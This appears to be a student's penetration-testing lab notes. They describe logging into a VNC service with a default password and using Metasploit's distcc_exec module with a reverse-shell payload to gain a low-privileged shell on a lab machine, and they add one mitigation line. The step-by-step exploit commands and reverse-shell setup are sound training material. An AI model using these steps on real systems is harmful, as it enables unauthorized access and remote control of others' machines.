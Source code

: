 ![[16.3.0.10.jpg]]
- This worked 

then google
How to log into VNC from Kali 
- (if you have a username and password)
- Root/ password

$vncviewer 172.22.117.150
- this should work 

signing password = password

Results
![[16.3.0.11.jpg]]
- What would pop up is the VNC machine from Kali 
- and from here i can use the cmd to do anything 

mitigation: 
- Change passwords that is not common for VNC 
- 

____
**If a User that does not have root**
We will first set up a low-privileged shell using Metasploit, which you will then use for post-exploitation and privilege-escalation techniques.

1. In Metasploit, search for `distcc`, and select it
    - `search distcc`.
    - `use 0` or `use exploit/unix/misc/distcc_exec`.
    - `distcc` is a tool for compiling code. It runs as a daemon with low permissions, and this version is vulnerable.
2. List the options of the module, and note that we need to set RHOSTS again as it is a required option.
    - `set RHOSTS 172.22.117.150`

1. Before running the module, we need to set a payload. List the available payloads.
    - `show payloads`
    - Note the **Description** column, as it shows in parentheses how the payload is communicating.
    
1. Select the **reverse** payload. Be sure NOT to select **reverse_bash**, or the exploit will not work.
    - `set PAYLOAD cmd/unix/reverse`
    - Note that we are now using the PAYLOAD with our EXPLOIT!

1. List options again, and note that there's a new blank setting, LHOST. This is our "listening host," which is the host that listens for the payload communication. In this case, our LHOST is the machine that we're currently operating on. Use `ifconfig` to show your IP (eth0) and set LHOST to that IP.
    - `set LHOST 172.22.117.100`
2. Run the module.
    - `exploit` OR `run`
    
7. Check your current user via `id`.
    - `id`
    - Note that we were able to obtain a low-privileged shell with an exploit.
    - Leave the current window and Metasploit session open, as you will use it in the next activity
